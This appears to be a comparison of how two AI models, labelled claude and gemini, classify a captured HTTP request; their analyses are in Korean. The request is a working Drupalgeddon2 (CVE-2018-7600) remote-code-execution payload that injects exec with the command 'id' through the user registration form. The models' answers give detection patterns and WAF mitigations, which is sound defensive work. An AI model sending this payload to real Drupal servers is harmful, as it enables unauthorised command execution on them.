 Raw Example.
```
POST /user/register?element_parents=account/mail/#value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

claude 
- 공격 이름: `Drupal Remote Code Execution`
- 판단 근거: `#post_render`와 `exec` 함수 사용, `drupal_ajax` 파라미터 존재
- 탐지 패턴: `mail[#post_render][]=exec`
- 설명: Drupal CMS의 취약점을 이용해 원격에서 임의의 코드를 실행하는 공격입니다.
- 대응 방법: Drupal 버전 업데이트, WAF에서 `#post_render` 및 `exec` 문자열 필터링, 입력값 검증 강화

gemini
- 공격 이름: `Drupalgeddon2`
- 판단 근거: `mail[#post_render][]=exec`, `mail[#type]=markup`, `mail[#markup]=id` 파라미터를 통해 원격 코드 실행 시도를 확인했습니다.
- 탐지 패턴: `mail\[#post_render]\[]=exec`, `mail\[#type]=markup`, `mail\[#markup]=`
- 설명: Drupalgeddon2(CVE-2018-7600)는 Drupal 7.x 및 8.x 버전의 취약점으로, 공격자가 악의적인 페이로드를 통해 원격 코드 실행을 가능하게 합니다.
- 대응 방법: Drupal을 최신 버전으로 업데이트하고, 웹 애플리케이션 방화벽(WAF)에서 위의 탐지 패턴을 이용하여 공격을 차단합니다.
